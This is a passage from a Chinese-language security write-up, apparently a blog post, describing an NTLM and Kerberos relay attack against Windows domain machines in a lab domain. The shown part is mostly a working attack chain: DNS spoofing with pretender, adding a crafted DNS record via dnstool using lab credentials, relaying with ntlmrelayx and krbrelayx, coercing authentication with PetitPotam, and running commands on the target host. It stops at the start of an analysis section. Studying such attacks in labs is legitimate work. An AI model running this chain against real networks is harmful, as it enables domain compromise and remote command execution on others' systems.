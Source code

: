 1、使用 pretender 在局域网里开启域名监听（该方法限于同一局域网，不会在域内添加 DNS 记录较隐蔽）  

```
pretender -i &#34;eth1&#34; --spoof &#34;CASTELBLACK1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA&#34; --no-dhcp-dns --no-timestamps

```

  
SMB、HTTP 在解析域名时会尝试所有的方法：IPv4, IPv6, mDNS, LLMNR, NetBIOS-NS, A, AAAA, ANY和所有可能的组合去获取到域名的解析 IP  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4LicHRMXdTzAa8vyywL0Em1eSBDwicSLtGVcfoib4k0b2kp9cbwf1GZxrEeicmGgZicYfW8QGEOVZ3oSW75LsvWPmNw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4LicHRMXdTzAa8vyywL0Em1eSBDwicSLtGIUK0DBMwMm2EjEOsCvzHLkXQu3Ld3wIs9Nnib3cjbCV8ac92HgWPWsA/640?wx_fmt=png&from=appmsg "")  
  
  
使用 dnstool 向域内添加 DNS 记录（该方法可在不同局域网使用）  

```
$ dnstool.py -u 'NORTH.SEVENKINGDOMS.LOCAL\arya.stark' -p 'Needle' 192.168.56.9 -a add -r CASTELBLACK1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA -d 192.168.56.11 

[-] Adding new record 
[+] LDAP operation completed successfully

```

  
2、开启 NTLM Relay  

```
$ impacket-ntlmrelayx -t CASTELBLACK.NORTH.SEVENKINGDOMS.LOCAL -smb2support

```

  
3、使用 PetitPotam 强制让目标机器向攻击机器做 SMB 验证  

```
$ PetitPotam.py -d NORTH.SEVENKINGDOMS.LOCAL -u 'arya.stark' -p 'Needle' &#34;CASTELBLACK1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA&#34; &#34;CASTELBLACK.NORTH.SEVENKINGDOMS.LOCAL&#34;

```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4LicHRMXdTzAa8vyywL0Em1eSBDwicSLtGNjmsOFykibtRDtDuiaOCZaVUQeOVePQQHibzOvySUW12HCGyzzCvdVemg/640?wx_fmt=png&from=appmsg "")  
#### 使用 Kerberos 中继  
  
第一步和第三步与上述一致，第二步开启 krbrelayx 。  

```
$ python3 krbrelayx.py -t CASTELBLACK.NORTH.SEVENKINGDOMS.LOCAL -debug -c 'cmd /c &#34;whoami /all & hostname & ipconfig&#34;'

```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4LicHRMXdTzAa8vyywL0Em1eSBDwicSLtG7Wpel1hh3wiaPpnvZLjolYcWeX5P8yuVdhVDm0O9wT8TUF8TqJ4kfdA/640?wx_fmt=png&from=appmsg "")  
## 漏洞分析  
#### 本地 NTLM 认证  
  